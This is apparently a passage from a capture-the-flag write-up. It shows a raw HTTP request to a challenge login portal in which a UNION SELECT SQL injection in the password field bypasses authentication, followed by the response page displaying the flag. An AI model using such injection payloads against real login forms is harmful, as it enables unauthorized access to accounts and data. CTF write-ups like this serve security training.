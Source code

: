 ```
POST / HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://challs.houseplant.riceteacatpanda.wtf:30001
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30001/
Upgrade-Insecure-Requests: 1

username=m3ssap0&password='+UNION+SELECT+2,'flagman69',3+#

HTTP/1.1 200 OK
Date: Fri, 24 Apr 2020 20:57:59 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.30
Vary: Accept-Encoding
Content-Length: 789
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
<head>
    <title>Super secure login portal</title>

    <style>
        .container {
            position: absolute;
            left: 50%;
            top: 50%;
            transform: translate(-50%, -50%);
        }

        body {
            font-family: sans-serif;
        }

    </style>

</head>
<body>

    <div class="container">
    <h1>Super secure login portal</h1>

    <!-- ?sauce -->

    <p style='color: green;'>rtcp{y0u-kn0w-1-didn't-mean-it-like-th@t} :o</p>
    <form method="POST">
        <span>Username: </span><input type="text" name="username">
        <br>
        <br>
        <span>Password: </span><input type="password" name="password">
        <br>
        <br>
        <input type="submit">
    </form>
    </div>
```